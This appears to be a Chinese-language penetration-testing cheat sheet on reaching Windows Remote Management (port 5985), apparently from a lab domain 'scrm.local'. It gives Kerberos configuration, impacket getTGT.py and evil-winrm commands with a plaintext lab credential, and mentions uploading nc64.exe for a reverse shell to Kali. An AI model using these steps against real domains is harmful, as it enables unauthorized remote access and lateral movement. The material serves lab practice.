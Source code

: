 用于 Windows 远程管理服务，基于 Web 服务的管理接口。

通常使用 evil-winrm 拿到 PS Session


### 如果网络上 NTLM 验证被禁用
**0x01**
- **pwsh**
/etc/krb5.conf
```
[libdefaults]
        default_realm = SCRM.LOCAL
# The following libdefaults parameters are only for Heimdal Kerberos.
        fcc-mit-ticketflags = true

[realms]
        SCRM.LOCAL = {
                kdc = dc1.scrm.local
                admin_server = dc1.scrm.local
        }

[domain_realm]
```

```bash
sudo pwsh
Install-Module -Name PSWSMan -Scope AllUsers   (安装开放管理基础设施)
exit

pwsh
Enter-PSSession dc1.scrm.local -Credential UserName
登录后再上传nc64.exe 链接到Kali
```

**0x02**
- GetTGT.py
修改/etc/krb5.conf 后
```bash
└─$ python /usr/share/doc/python3-impacket/examples/getTGT.py scrm.local/MiscSvc:ScrambledEggs9900    Impacket v0.12.0.dev1 - Copyright 2023 Fortra                                                         [*] Saving ticket in MiscSvc.ccache

└─$ KRB5CCNAME=MiscSvc.ccache evil-winrm -r scrm.local -i dc1.scrm.local
```


**内网5985不对外开放，同时1433可以访问，拥有初始凭据即可使用 mssqlproxy 来进行连接 winrm**
[1433 - MsSql](1433%20-%20MsSql.md)
